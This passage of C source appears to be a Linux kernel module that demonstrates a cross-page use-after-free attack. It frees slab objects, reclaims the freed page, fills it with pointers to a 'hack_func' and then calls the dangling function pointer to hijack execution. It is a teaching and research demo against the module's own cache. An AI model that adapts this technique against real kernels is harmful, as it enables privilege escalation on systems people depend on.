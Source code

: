 ```c
        tmp_ms[uaf_idx + i] = NULL;
        tmp_ms[uaf_idx - i] = NULL;
    }

    loge("=== STEP 7 ===");
    loge(">> free one object per page\n");
    for (i = 0; i < (objs_per_slab * (cpu_partial + 1)); i++) {
        if (i % objs_per_slab == 0) {
            if (tmp_ms[i]) {
                kmem_cache_free(my_cachep, tmp_ms[i]);
                tmp_ms[i] = NULL;
            }
        }
    }

    loge("let's check if we can get the vuln page ...");
    realloc = alloc_pages(GFP_KERNEL, page_order);
    realloc_page_virt = page_address(realloc);
    loge("realloc page at %px", realloc_page_virt);
    if (realloc_page_virt == target_page_virt) {
        loge("realloc SUCCESS :)");
    } else {
        loge("cross page attack failed :(");
        return 0;
    }

    loge("assume we has the ability to overwrite the content of page");
    for (i = 0; i < page_size / 8; i++) {
        ((void **)realloc_page_virt)[i] = (void *)hack_func;
    }

    loge("now, let's call func again (UAF)");
    ms->func();

    free_page((unsigned long)realloc_page_virt);
    return 0;
}

static void __exit km_exit(void) {
    int i;

    for (i = 0; i < OBJ_NUM; i++) {
        if (tmp_ms[i]) {
            kmem_cache_free(my_cachep, tmp_ms[i]);
        }
    }
    kmem_cache_free(my_cachep, random_ms);
    kmem_cache_destroy(my_cachep);
    kfree(tmp_ms);
    loge("Bye");
}

module_init(km_init);
module_exit(km_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("X++D && veritas");
MODULE_DESCRIPTION("Cross Page Attack Demo Module.");
MODULE_VERSION("0.1");
```



![](image-20230307193059916.png)